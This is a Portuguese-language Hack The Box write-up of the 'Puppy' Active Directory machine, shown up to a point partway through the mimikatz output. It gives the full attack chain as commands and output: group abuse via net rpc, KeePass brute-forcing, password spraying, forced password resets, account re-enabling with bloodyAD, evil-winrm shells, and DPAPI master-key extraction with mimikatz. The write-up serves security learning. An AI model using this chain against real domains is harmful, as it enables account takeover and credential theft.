

# Como hackers roubam senhas


## Introdução

Olá mundo! Sejam todos muito bem vindos à mais uma aventura na minha jornada no mundo da cibersegurança. A máquina do **[hackthebox](https://www.hackthebox.com)** de hoje chama-se **`Puppy`**, máquina **`Windows Active Directory`** classificada como de dificuldade média.

Nós começamos em um cenário *assumed breach*, onde temos uma credencial válida de usuário: **`levi.james : KingofAkron2025!`**. Nos aproveitamos do grupo desse usuário que nos permite nos adicionar ao grupo **`developers`**, que podem acessar a pasta compartilhada **`DEV`**. Nela encontramos um cofre do **`Keepass`**  cuja senha temos que quebrar usando um script público. Nesse cofre encontramos as credenciais do usuário **`ant.edwards`**, que pode mudar a senha do usuário remoto **`adam.silver`**. Já como adam encontramos um arquivo de backup de um site, onde as credenciais **[[LDAP]]** do usuário **`steph.cooper`** estão em texto plano. Por fim, conseguimos as credenciais da conta **`steph.cooper_adm`** por roubar as credenciais criptografadas pelo **[[Dpapi]]**.

Isso vai ser bem legal e instrutivo, então vamos começar!

---

## Enumeração

### Nmap

Comecei fazendo a varredura de portas com **[[NMAP]]**. 

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -Pn -p$ports -sC -sV -oA nmap/$machine -vv $IP

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-18 23:14:36Z)
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3260/tcp  open  iscsi?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56813/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: 6h59m59s
| smb2-time:
|   date: 2025-05-18T23:16:33
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 38276/tcp): CLEAN (Timeout)
|   Check 2 (port 43439/tcp): CLEAN (Timeout)
|   Check 3 (port 42755/udp): CLEAN (Timeout)
|   Check 4 (port 18130/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:17
Completed NSE at 13:17, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:17
Completed NSE at 13:17, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:17
Completed NSE at 13:17, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.79 seconds
           Raw packets sent: 23 (1.012KB) | Rcvd: 23 (1.012KB)
```

As portas **88** (kerberos) e **389** (ldap) estão abertas, o que indica que se trata de um **`Windows Active Directory`**. Também aproveitei para adicionar o hostname **`puppy.htb`** ao meu arquivo **`/etc/hosts`**.

### DEV Share

Usando a ferramenta **[[Netexec]]**, verifiquei se havia pastas compartilhadas que o usuário **`levi.james`** poderia acessar.

```bash {10}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --shares
SMB         10.129.49.206   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.49.206   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.129.49.206   445    DC               [*] Enumerated shares
SMB         10.129.49.206   445    DC               Share           Permissions     Remark
SMB         10.129.49.206   445    DC               -----           -----------     ------
SMB         10.129.49.206   445    DC               ADMIN$                          Remote Admin
SMB         10.129.49.206   445    DC               C$                              Default share
SMB         10.129.49.206   445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.129.49.206   445    DC               IPC$            READ            Remote IPC
SMB         10.129.49.206   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.49.206   445    DC               SYSVOL          READ            Logon server share
```

Pude ver que havia uma pasta chamada **`DEV`**, mas o usuário **`levi.james`** não tinha direito de leitura. Então aproveitando que estava usando o **`Netexec`**, listei os usuários validos do sistema.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --users
SMB         10.129.49.206   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.49.206   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.129.49.206   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.49.206   445    DC               Administrator                 2025-02-19 19:33:28 0       Built-in account for administering the computer/domain
SMB         10.129.49.206   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.49.206   445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account
SMB         10.129.49.206   445    DC               levi.james                    2025-02-19 12:10:56 0
SMB         10.129.49.206   445    DC               ant.edwards                   2025-02-19 12:13:14 0
SMB         10.129.49.206   445    DC               adam.silver                   2025-05-18 23:19:29 0
SMB         10.129.49.206   445    DC               jamie.williams                2025-02-19 12:17:26 0
SMB         10.129.49.206   445    DC               steph.cooper                  2025-02-19 12:21:00 0
SMB         10.129.49.206   445    DC               steph.cooper_adm              2025-03-08 15:50:40 0
SMB         10.129.49.206   445    DC               [*] Enumerated 9 local users: PUPPY
```

Fazer isso me permitiu criar uma lista de usuários para o caso de ter que usar a técnica de [[Password Spray]].

Outra coisa interessante do **`Netexec`**, é que ele possui um **`Bloodhound.py`** integrado. Então eu usei essa função **`Bloodhound`** para fazer a enumeração do [[Active Directory]].

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ nxc ldap puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server 10.129.49.206
SMB         10.129.49.206   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.129.49.206   389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.129.49.206   389    DC               Resolved collection methods: trusts, container, psremote, objectprops, dcom, rdp, localadmin, group, acl, session
LDAP        10.129.49.206   389    DC               Done in 00M 50S
LDAP        10.129.49.206   389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.129.49.206_2025-05-18_142805_bloodhound.zip
```

Nessa hora eu tive um grande problema. Ao tentar abrir o **`Bloodhound GUI`** para exportar o arquivo **`zip`** gerado pelo **`Netexec`**, o **`Bloodhound GUI`** não abria de jeito nenhum. Então tentei instalar a versão mais atual, a **`Community Edition`**. Porém minha [[Máquina Virtual]] é limitada e travou toda na tela de login. Assim entendi que teria que fazer do jeito difícil- na mão.

O arquivo **`zip`** contém uma série de arquivos json, nomeados de acordo com a sua categoria de objetos em um **`Active Directory`**: **Users**, **Groups**, **Computers** e etc. Os arquivos que usei foram os arquivos **`Users.json`** e **`Groups.json`**. Com uma ajudinha do ChatGPT, entendi de forma bem básica como esses dois arquivos poderiam me ajudar a criar as relações entre os usuários e grupos.

Cada entrada nos arquivos **`json`** seguem o seguinte padrão:

```bash
ObjectIdentifier
Properties{}
Aces []{RightName,PrincipalSID}
```

Então para descobrirmos as relações entre os objetos do **`AD`**, precisamos pegar o **`ObjectIdentifier`** de um usuário ou grupo e procurá-lo dentro do **`Aces`** de outro usuário ou grupo. Por exemplo, se pegarmos o **`ObjectIdentifier`** do grupo **`HR`** e procurarmos onde ele aparece como **`PrincipalSID`** no arquivo **`Groups.json`**, veremos que ele aparece no **`Aces`** do grupo **`DEVELOPERS`** com o **`RightName`** **`GenericWrite`**. 

```json title="Trecho do Groups.json" {9,11}
 "Aces": [
                {
                    "RightName": "Owns",
                    "IsInherited": false,
                    "PrincipalSID": "S-1-5-21-1487982659-1829050783-2281216199-512",
                    "PrincipalType": "Group"
                },
                {
                    "RightName": "GenericWrite",
                    "IsInherited": false,
                    "PrincipalSID": "S-1-5-21-1487982659-1829050783-2281216199-1108",
                    "PrincipalType": "Group"
                }
```

Assim podemos concluir que o grupo **`HR`** tem o privilégio **`GenericWrite`** sobre o grupo **`DEVELOPERS`**. Isso significa que o usuário **`levi.james`**, que faz parte do grupo **`HR`**, pode se adicionar ao grupo **`DEVELOPERS`** e herdar o direito de ler o que está na pasta compartilhada **`DEV`**.

Usando o comando **`cat arquivo.json | jq | less`** Eu repeti esse processo com outros usuários e grupos na esperança de mapear todo o caminho até o administrator. Mas essa é uma máquina média afinal, então não seria tão fácil assim. Com o que eu tinha mapeado, minhas anotações ficaram assim:



> [!tip] Curiosidade:
> Fazer isso na mão dá bastante trabalho, mas também é divertido. Mas pelo bem da produtividade, teria sido melhor criar um script em bash ou python que faz isso em segundos. Talvez o mais prático mesmo seja baixar o Bloodhound CE na máquina host ao invés da VM. Daí é só exportar os arquivos para o host e ter todos os recursos que o Bloodhound CE oferece. 

---

## Acesso Inicial

Sabendo que o meu usuário inicial **`levi.james`** como membro do grupo **`HR`**, tem o privilégio **`GenericWrite`** sobre o grupo **`DEVELOPERS`**, eu usei o comando do **SAMBA** **`net rpc`** para adicioná-lo ao novo grupo.

```bash {2,8}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ net rpc group addmem "developers" levi.james -U puppy.htb/levi.james%'KingofAkron2025!' -S $IP

# verificando o grupo pode-se ver que foi realmente adicionado

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ net rpc group members "developers" -U puppy.htb/levi.james%'KingofAkron2025!' -S $IP
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams 
```

Agora eu talvez pudesse acessar o conteúdo da pasta compartilhada **`DEV`**. Usando a ferramenta [[Smbclient]], eu consegui acessar a pasta **`DEV`**. Havia um arquivo chamado **`recovery.kdbx`** e um instalador do **`KeePassXC-2.7.9-Win64`**. Então baixei o arquivo **`recovery.kdbx`** para minha máquina.

```bash {10}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ smbclient -U levi.james //puppy.htb/DEV
Password for [WORKGROUP\levi.james]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Mar 23 04:07:57 2025
  ..                                  D        0  Sat Mar  8 13:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 04:09:12 2025
  Projects                            D        0  Sat Mar  8 13:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 23:25:46 2025

                5080575 blocks of size 4096. 1532080 blocks available
smb: \> get recovery.kdbx
getting file \recovery.kdbx of size 2677 as recovery.kdbx (2.8 KiloBytes/sec) (average 2.8 KiloBytes/sec)
smb: \> 
```


### Keepass Bruteforce

Eu tinha instalado o programa **`Keepass2`** na minha máquina já algum tempo devido a ter feito uma máquina do **`Hackthebox`** chamada **`Keeper`**. Então tentei abrir o arquivo **`recovery.kdbx`** usando o programa, mas infelizmente eu precisava da chave mestra.

No meu write-up da máquina [keeper](https://medium.com/system-weakness/keeper-write-up-8e49336352fa), eu já havia tido contato com o programa [[Keepass]]. Então fui logo usando a ferramenta **`keepass2john`** para tentar quebrar a chave mestra do cofre usando a ferramenta **`John The Ripper`**.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ keepass2john -k /usr/share/wordlists/rockyou.txt recovery.kdbx
! recovery.kdbx : File version '40000' is currently not supported!
```

Não funcionou. Então fiquei pensando em possíveis **`CVEs`** recentes para bypassar a chave mestra. Como não encontrei nenhuma, o último recurso seria tentar o [[Bruteforce]]. Então, sem muita expectativa, procurei algum script que quebrasse a chave mestra do **`Keepass`** e...achei!

Usando o script do **`GitHub`**  [keepass4brute.sh](https://raw.githubusercontent.com/r3nt0n/keepass4brute/refs/heads/master/keepass4brute.sh), consegui obter a senha da chave mestra do **`Keepass`**.

```bash {9}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ bash keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 14 - Estimated time remaining: 101 weeks, 4 days
[+] Current attempt: liverpool

[*] Password found: liverpool 
```

> [!warning] Aviso
> Para o script funcionar, é necessário ter instalada a dependência **`keepassxc-cli`**. Caso não tenha, instale usando o comando **`sudo apt install keepassxc`**

### User Flag

![[puppy-0.png | A imagem mostra a senha liverpool digitada como chave mestra]]

Com a senha **`liverpool`**, eu abri o cofre e encontrei alguns usuários e senhas.

![[puppy-1.png | A imagem mostra usuários e suas respectivas senhas abaixo.]]

Daí criei um dicionário **`usernames.txt`** e outro **`passwords.txt`**, para testar com o **`Netexec`**. Assim consegui uma nova credencial válida.

```bash title="ant.edwards : Antman2025!" {17}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ nxc smb puppy.htb -u usernames.txt  -p passwords.txt --continue-on-success
SMB         10.129.200.26   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Administrator:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Guest:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\krbtgt:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\levi.james:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\ant.edwards:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\jamie.williams:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper_adm:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Administrator:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Guest:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\krbtgt:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\levi.james:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\adam.silver:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\jamie.williams:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper_adm:Antman2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Administrator:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Guest:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\krbtgt:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\levi.james:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\adam.silver:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper_adm:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Administrator:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Guest:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\krbtgt:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\levi.james:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\adam.silver:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\jamie.williams:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper_adm:ILY2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Administrator:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\Guest:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\krbtgt:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\levi.james:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\adam.silver:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\jamie.williams:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper:Steve2025! STATUS_LOGON_FAILURE
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\steph.cooper_adm:Steve2025! STATUS_LOGON_FAILURE 
```

Isso confirmou que a senha do usuário **`ant.edwards`** era a única válida no servidor. Mas infelizmente o usuário **`ant.edwards`** não faz parte do grupo **`REMOTE MANAGEMENT USERS`**, que podem se conectar remotamente ao servidor. 

No entanto, ele faz parte do grupo **`SENIOR DEVS`**, que tem o privilégio **`GenericAll`** sobre o usuário **`adam.silver`**. Então posso fazer a mesma coisa que no início e mudar a senha do **`adam.silver`**.

Mais uma vez então usei o **`net rpc`**. No entanto, ao testar a conexão via [[SMB]], recebi a mensagem de erro **`STATUS_ACCOUNT_DISABLED`**.

```bash {7}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ net rpc password adam.silver 'Password@1!' -U puppy.htb/ant.edwards%'Antman2025!' -S $IP

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ nxc smb puppy.htb -u 'adam.silver' -p 'Password@1!'
SMB         10.129.200.26   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.200.26   445    DC               [-] PUPPY.HTB\adam.silver:Password@1! STATUS_ACCOUNT_DISABLED 
```

> [!question] Mas o que é STATUS_ACCOUNT_DISABLED?
> **STATUS_ACCOUNT_DISABLED** indica que uma conta de usuário está desativada e não pode ser usada para iniciar sessão no sistema. Isso geralmente ocorre porque a conta foi desabilitada por um administrador

Para habilitar a conta do usuário **`adam.silver`**, usei a ferramenta **`BloodyAD`**.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ bloodyAD -u ant.edwards -d puppy.htb -p Antman2025! --host $IP remove uac adam.silver -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Agora com a conta habilitada, posso finalmente me conectar usando a ferramenta **`Evil-Winrm`** e ler a flag do usuário.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ evil-winrm -i puppy.htb -u 'adam.silver' -p 'Password@1!'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> ls ..\desktop


    Directory: C:\Users\adam.silver\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---         5/19/2025  10:29 AM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.silver\Documents> cat ..\desktop\user.txt
192f56b8d1f7c706209b2df1886ddef0
```

---

## Escalação de Privilégios

### Backup

Olhando os diretórios do servidor encontrei algo interessante no diretório **`Backups`**.

```bash {10}
*Evil-WinRM* PS C:\> cd backups
*Evil-WinRM* PS C:\backups> ls


    Directory: C:\backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\backups> download site-backup-2024-12-30.zip

Info: Downloading C:\backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip

Info: Download successful! 
```

Descompactando o arquivo na minha máquina, encontrei as credenciais do usuário **`steph.cooper`**. Ele também faz parte do grupo **`REMOTE MANAGEMENT USERS`**.

```bash title="steph.cooper : ChefSteph2025!" {9,10}
┌──(kali㉿kali)-[~/…/Hackthebox/Medium/Puppy/backup]
└─$ cat puppy/nms-auth-config.xml.bak
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config> 
```

### DPAPI

Com as novas credenciais, eu loguei como **`steph.cooper`**. 

```bash
──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/Puppy]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper' -p 'ChefSteph2025!'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents>
```

Uma coisa que me chamou a atenção desde o começo é que **`steph.cooper`** possui duas contas: **`steph.cooper`** e **`steph.cooper_adm`**.  Isso indica que ele usa uma conta administrativa sempre que precisa realizar tarefas com privilégios de administrador.

Após um bom tempo procurando por um vetor de ataque e não achando nada, finalmente comecei a ter sucesso com o **`DPAPI`**. 

> [!question] Mas o que é DPAPI?
> **DPAPI** (Data Protection API) é uma API do Windows usada para proteger dados sensíveis, como senhas, chaves privadas, certificados, etc. Ela permite que aplicações e o próprio sistema operacional criptografem dados de forma que só possam ser descriptografados pelo usuário ou sistema autorizado.  
> Cada usuário do Windows tem uma **chave mestra** (master key) única, que é usada para proteger outras chaves e dados criptografados. Essa chave mestra é protegida usando a senha do usuário (ou credenciais do sistema no caso de contas de serviço). Os dados protegidos são criptografados com chaves derivadas dessa chave mestra. As chaves mestras ficam armazenadas em arquivos no caminho:  
> `C:\Users\<Usuário>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>`
> Para descriptografar dados protegidos, é necessário descriptografar primeiro essa chave mestra.
>> [!info] Uma curiosidade:
>> Se você colocar um "D" antes do nome da máquina ("DPUPPY"), a pronúncia fica parecida com DPAPI.

### Root flag

Para poder descriptografar a chave mestra ou masterkey, precisei fazer o upload de uma ferramenta amplamente conhecida: [[Mimikatz]]. Depois disso usei a ferramenta para conseguir a chave mestra.

```bash {21}
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft\protect\S-1-5-21-1487982659-1829050783-2281216199-1107> c:\temp\mimikatz.exe "dpapi::masterkey /in:C:\users\steph.cooper\appdata\roaming\microsoft\protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
  
---<SNIPED>---

Auto SID from path seems to be: S-1-5-21-1487982659-1829050783-2281216199-1107

[backupkey] without DPAPI_SYSTEM:
  key : 1a943a912fa315c7f9eced48870b613d9e75b467d13d618bbad9262ef3f2c567
